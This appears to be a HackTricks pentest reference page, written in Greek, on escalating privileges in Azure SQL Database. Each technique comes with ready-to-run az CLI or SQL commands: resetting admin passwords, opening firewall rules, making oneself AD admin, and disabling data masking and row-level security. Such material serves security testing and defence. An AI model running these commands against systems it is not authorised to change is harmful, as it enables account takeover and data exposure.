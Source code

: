 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/write`

Με αυτές τις άδειες, ένας χρήστης μπορεί να εκτελέσει κλιμάκωση προνομίων ενημερώνοντας ή δημιουργώντας Azure SQL servers και τροποποιώντας κρίσιμες ρυθμίσεις, συμπεριλαμβανομένων των διαπιστευτηρίων διαχειριστή. Αυτή η άδεια επιτρέπει στον χρήστη να ενημερώνει τις ιδιότητες του διακομιστή, συμπεριλαμβανομένου του κωδικού πρόσβασης του διαχειριστή SQL, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή έλεγχο του διακομιστή. Μπορούν επίσης να δημιουργήσουν νέους διακομιστές, ενδεχομένως εισάγοντας υποδομή σκιάς για κακόβουλους σκοπούς. Αυτό γίνεται ιδιαίτερα κρίσιμο σε περιβάλλοντα όπου η "Microsoft Entra Authentication Only" είναι απενεργοποιημένη, καθώς μπορούν να εκμεταλλευτούν την SQL-based authentication για να αποκτήσουν απεριόριστη πρόσβαση.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_passwor d>
```
Επιπλέον, είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση αν θέλετε να έχετε πρόσβαση από ένα μη ιδιωτικό σημείο, για να το ενεργοποιήσετε:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
Επιπλέον, με τα δικαιώματα μπορείτε να ενεργοποιήσετε την ανατεθείσα ταυτότητα, να λειτουργήσετε με την διαχειριζόμενη ταυτότητα που είναι συνδεδεμένη με τον διακομιστή. Για παράδειγμα εδώ με μια διαχειριζόμενη ταυτότητα που μπορεί να έχει πρόσβαση στο Azure Storage:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--assign_identity
```

```sql 
CREATE DATABASE SCOPED CREDENTIAL [ManagedIdentityCredential]
WITH IDENTITY = 'Managed Identity';
GO


CREATE EXTERNAL DATA SOURCE ManagedIdentity
WITH (
TYPE = BLOB_STORAGE,
LOCATION = 'https://<storage-account>.blob.core.windows.net/<container>',
CREDENTIAL = ManagedIdentityCredential
);
GO

SELECT *
FROM OPENROWSET(
BULK 'message.txt',
DATA_SOURCE = 'ManagedIdentity',
SINGLE_CLOB
) AS DataFile;
GO
```
### `Microsoft.Sql/servers/firewallRules/write`

Ένας επιτιθέμενος μπορεί να χειριστεί τους κανόνες τείχους προστασίας στους Azure SQL servers για να επιτρέψει μη εξουσιοδοτημένη πρόσβαση. Αυτό μπορεί να εκμεταλλευτεί για να ανοίξει τον διακομιστή σε συγκεκριμένες διευθύνσεις IP ή σε ολόκληρες περιοχές IP, συμπεριλαμβανομένων των δημόσιων IP, επιτρέποντας την πρόσβαση σε κακόβουλους παράγοντες. Αυτή η δραστηριότητα μετά την εκμετάλλευση μπορεί να χρησιμοποιηθεί για να παρακαμφθούν οι υπάρχοντες ελέγχοι ασφάλειας δικτύου, να καθιερωθεί επιμονή ή να διευκολυνθεί η πλευρική κίνηση εντός του περιβάλλοντος εκθέτοντας ευαίσθητους πόρους.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/outboundFirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/ipv6FirewallRules/write`

Με αυτή την άδεια, μπορείτε να δημιουργήσετε, να τροποποιήσετε ή να διαγράψετε κανόνες τείχους προστασίας IPv6 σε έναν Azure SQL Server. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο ή εξουσιοδοτημένο χρήστη να παρακάμψει τις υπάρχουσες ρυθμίσεις ασφαλείας δικτύου και να αποκτήσει μη εξουσιοδοτημένη πρόσβαση στον διακομιστή. Προσθέτοντας έναν κανόνα που επιτρέπει την κυκλοφορία από οποιαδήποτε διεύθυνση IPv6, ο επιτιθέμενος θα μπορούσε να ανοίξει τον διακομιστή για εξωτερική πρόσβαση.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/ipv6FirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### `Microsoft.Sql/servers/administrators/write` && `Microsoft.Sql/servers/administrators/read`

Με αυτές τις άδειες μπορείτε να κάνετε privesc σε ένα περιβάλλον Azure SQL Server αποκτώντας πρόσβαση σε SQL βάσεις δεδομένων και ανακτώντας κρίσιμες πληροφορίες. Χρησιμοποιώντας την παρακάτω εντολή, ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης μπορεί να ορίσει τον εαυτό του ή έναν άλλο λογαριασμό ως τον διαχειριστή Azure AD. Εάν είναι ενεργοποιημένη η "Μόνο Αυθεντικοποίηση Microsoft Entra", μπορείτε να αποκτήσετε πρόσβαση στον διακομιστή και τις παρουσίες του. Ακολουθεί η εντολή για να ορίσετε τον διαχειριστή Azure AD για έναν SQL διακομιστή:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### `Microsoft.Sql/servers/azureADOnlyAuthentications/write` && `Microsoft.Sql/servers/azureADOnlyAuthentications/read`

Με αυτές τις άδειες, μπορείτε να ρυθμίσετε και να επιβάλετε την "Μόνο Αυθεντικοποίηση Microsoft Entra" σε έναν Azure SQL Server, κάτι που θα μπορούσε να διευκολύνει την κλιμάκωση προνομίων σε ορισμένα σενάρια. Ένας επιτιθέμενος ή ένας εξουσιοδοτημένος χρήστης με αυτές τις άδειες μπορεί να ενεργοποιήσει ή να απενεργοποιήσει την αυθεντικοποίηση μόνο μέσω Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
### Microsoft.Sql/servers/databases/dataMaskingPolicies/write
Τροποποιήστε (ή απενεργοποιήστε) τις πολιτικές μάσκας δεδομένων στις βάσεις δεδομένων SQL σας.
```bash
az rest --method put \
--uri "https://management.azure.com/subscriptions/<your-subscription-id>/resourceGroups/<your-resource-group>/providers/Microsoft.Sql/servers/<your-server>/databases/<your-database>/dataMaskingPolicies/Default?api-version=2021-11-01" \
--body '{
"properties": {
"dataMaskingState": "Disable"
}
}'
```
### Αφαίρεση Ασφάλειας Επίπεδου Γραμμής
Αν συνδεθείτε ως διαχειριστής, μπορείτε να αφαιρέσετε τις πολιτικές του διαχειριστή και άλλων χρηστών.
```sql
DROP SECURITY POLICY [Name_of_policy];
```
{{#include ../../../banners/hacktricks-training.md}}
